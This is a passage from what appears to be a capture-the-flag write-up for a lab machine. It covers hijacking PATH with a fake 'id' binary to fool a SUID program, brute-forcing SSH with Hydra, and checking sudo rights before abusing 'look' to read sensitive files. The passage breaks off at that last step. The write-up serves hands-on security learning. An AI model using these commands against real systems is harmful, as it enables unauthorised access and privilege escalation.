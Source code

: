 #### Commands:
```bash
export PATH=/tmp:$PATH
echo -e '#!/bin/bash\n echo "uid=33(think) gid=33(think) groups=33(think)"' > /tmp/id
chmod +x /tmp/id
/usr/sbin/pwm
```

This changes the user to `think`.

---

### **Step 12: SSH Brute-Forcing**
We perform an SSH brute-force attack using Hydra to gain access as the `think` user:

#### Command:
```bash
hydra -l think -P wordlist.txt ssh://lookup.thm
```

#### Output:
```
think:josemario.AKA(think)
```

#### Logging In:
```bash
ssh think@lookup.thm
```

#### Retrieving User Flag:
```bash
cat /home/think/user.txt
{REDACTED}
```

---

### **Step 13: Privilege Escalation to Root**
As the `think` user, we check for sudo privileges:

#### Command:
```bash
sudo -l
```

#### Output:
```
User think may run the following commands on lookup:
(ALL) /usr/bin/look
```

#### Exploiting the `look` Command:
Using **GTFOBins**, we find a method to read sensitive files with the `look` command:
